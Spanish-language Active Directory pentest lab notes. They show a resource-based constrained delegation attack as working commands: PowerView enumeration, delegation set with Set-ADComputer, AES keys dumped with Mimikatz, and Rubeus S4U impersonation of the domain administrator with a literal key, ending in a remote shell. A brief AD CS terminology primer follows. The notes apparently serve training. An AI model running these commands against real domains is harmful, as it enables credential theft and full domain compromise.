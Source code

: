 
```
### Ya tenemos acceso a una máquina unida a un dominio
### Vamos a enumerar si tenemos permisos de escritura sobre algún objeto
### Usando PowerView
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```


```
Get-ADComputer -Identity US-HELPDESK -Properties msds-allowedtoactonbehalfofotheridentity
```

```
### Usando el modulo ActiveDirectory 
### Configurar RBCD en us-helpdesk para que confíe en $comps
$comps = 'student1$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps

### Ahora, obtengamos los privilegios de studentx$ extrayendo sus claves AES:
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

```
### AES key de studentx$ para acceder a us-helpdesk como CUALQUIER usuario que queramos
### Rubeus
.\Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt

winrs -r:us-helpdesk cmd.exe
```



# Cross Trust Attacks

## AD CS

- Active Directory Certificate Services (AD CS) permite el uso de Public Key Infrastructure (PKI) en el bosque de Active Directory.  
- AD CS ayuda a autenticar usuarios y máquinas, cifrar y firmar documentos, sistemas de archivos, correos electrónicos y mucho más.
### Terminología

- CA - La autoridad de certificación que emite certificados. El servidor con función AD CS (DC o independiente) es la CA.  
- Certificado - Emitido a un usuario o máquina y puede ser utilizado para autenticación, encriptación, firma, etc. 
- CSR - Solicitud de firma de certificado realizada por un cliente a la CA para solicitar un certificado.  
- Certificate Template: define la configuración de un certificado. Contiene información como permisos de inscripción, EKU, caducidad, etc.  
- EKU OID: identificadores de objetos de usos de claves ampliados. Determinan el uso de una plantilla de certificado (autenticación de cliente, inicio de sesión con tarjeta inteligente, SubCA, etc.).  
### Certificate Service
